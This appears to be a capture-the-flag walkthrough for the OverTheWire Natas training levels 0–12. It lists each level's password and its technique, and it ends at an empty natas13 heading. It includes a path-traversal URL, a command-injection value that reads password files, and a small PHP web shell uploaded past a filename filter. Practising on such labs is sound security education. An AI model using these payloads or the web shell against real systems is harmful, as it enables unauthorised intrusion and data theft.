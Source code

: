 # Natas Challenges

### Natas0

Password is in the source code

```
gtVrDuiDfck831PqWsLEZy5gyDz1clto 
```
### natas1
Source Code of the screen again
```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi 
```

### natas2
source code has a image. Going to the images directory is has another file with the password. Users.txt
```
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

### natas3
This was found in the source code. This references robots.txt
```html
<!-- No more information leaks!! Not even Google will find it this time... -->
```
There is a hidden directory found in robots.txt
```html
User-agent: *
Disallow: /s3cr3t/
```
In this directory there is a uses.txt with the next password
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
### natas4
```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
This is referencing the referer field in the request. Refreshing the page will populate the needed field.

Changing the request to the following will get you the password.

![image-20200910191407067](natas4.png)

```
Referer: http://natas5.natas.labs.overthewire.org/
```
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### natas5 

You are greeted with the following prompt.

```
Access disallowed. You are not logged in
```

What is associated with logging in? COOKIES

Changing the loggedin cookies cookie from 0 to 1 fixes this.

![image-20200910191441513](natas5.png)

Refreshing this page after this will reveal the password.

```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### natas6

A prompt for a secret appears.

We can try some stuff but nah.

Let look at the source code.

```php

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

The php script calls for the file secrets.inc in includes directory.

The page appears blank but looking at the source code will reveal the password for the first screen.

![image-20200910191510471](natas6.png)

```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### natas7

A page with 2 options.

Home and About

Clicking one adds `?page=home` and `?page=about` to the url. I smell Local File Inclusion.

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```

The `../` allows us to move up a directory. Lets just do it a lot to make sure we get to the top. The natas challenge web page stats we can always find the password file under `/etc/natas_webpass/` and the next level name.

![image-20200910193416105](natas7.png)

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

### natas8

Another Secret Page. Oh Dear. Lets take a look at the source code.

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Alright so we have a secret and we have how it got there. Lets reverse engineer. For the sake of easiness (and the fact that I am using a windows OS), lets use cyberchef to get the secret.

The order to get is base64 > Reverse String > bin2hex so we have to do it backwards. From Hex > Reverse the order > Decode base64.

![image-20200910194548812](natas8.png)

the final code is `oubWYf2kBq` which reveals the password.

```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### natas9

Another secret.

Lets take a look at the source code.

```php+HTML
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

I might be able to inject a command into `grep -i $key dictionary.txt` . With the entry `whoami; cat /etc/natas_webpass/natas10 ; ` so that it looks like `grep -i whoami; cat /etc/natas_webpass/natas10; dictionary.txt`

Boom.

![image-20200910200842416](natas10.png)

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### natas10

```
For security reasons, we now filter on certain characters
```

Hoa boi.... ( Had to look this one up)

You inject another file for the grep command to lookup. Lets do `/etc/natas_webpass/natas11` cause thats the goal I guess.

![image-20200910202050243](natas11.png)

```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### natas11

Ight. This one was rough. I had to get my friend explain this one to me. He knows stuff.

```
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

### natas12

Its an image uploader. Ight. So I could read the source code, but I am going to just try a few things.

Below is my standard PHP Cmd

```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Lets make a php file and try to upload.

Oh no. It gets renamed to a name with random strings.jpg.

If I look at the request, I can change it before it gets sent.

![image-20200911203346630](../../../Users/Admin/Downloads/natas12.png)

If I rename it to hello.php and go to `/upload/hello.php?e=whoami` I get back the username of the current user. With that I can read `/etc/natas_webpass/natas13`

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

